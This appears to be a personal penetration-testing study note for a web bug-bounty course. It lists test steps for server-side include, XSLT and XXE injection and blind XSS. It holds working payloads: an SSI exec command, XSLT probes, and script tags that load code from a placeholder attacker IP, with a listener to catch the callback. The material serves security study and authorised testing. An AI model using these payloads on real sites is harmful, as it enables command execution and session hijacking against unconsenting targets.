 
## SSI
Test for this if user input is reflected on into static HTML;
- Or if you see `.shtml`, `.shtm`, and `.stm` files.

1. Test with the following input where user would supply input to be reflected (such as your name):
```html
<!--#printenv -->
```
2. If this is executed, we can try executing arbitrary commands using `exec`:
```html
<!--#exec cmd="id" -->
```



## XSLT
If we find an input that is reflected on the page (such as our name), we can test if our input is sanitized before XSLT processing by inputting: `<`
- If there is a `500` error, it may be vulnerable

If so, try the following to see if it processes our input:
```xml
<xsl:value-of select="system-property('xsl:version')" />
<br/>
```
- If our input is interpreted, we have confirmed vulnerability
- If confirmed, go through [[Cybersecurity/CBBH Modules/3. Input-Based Attacks/6. XSLT - Extensible Stylesheet Language Transformations Server-Side Injection/Reference#Information Disclosure|Reference]]


## XXE (If XML data is being supplied)
### LFI: [[1. Local File Disclosure]]
### Advanced File Disclosure: [[2. Advanced File Disclosure]]
### Blind Data Exfiltration: [[3. Blind Data Exfiltration]]



# Input is sent to another user / blind
1. Contact Form
2. Testimonial form
3. Form for approval
## XSS (Session Hijacking)
We can test each input parameter with a payload that probes our attacking machine to find if it is vulnerable:
1. Start a listener:
```shell
sudo php -S 0.0.0.0:80
```
2. Submit XSS payload to send a request back to our machine
```
<script src=http://OUR_IP/username></script>
```
- We should receive a call to our listener if it is vulnerable
3. If we dent receive anything, try the following payloads:
```html
<script src=http://OUR_IP/username></script>

'><script src=http://OUR_IP/username></script>

"><script src=http://OUR_IP/username></script>
```
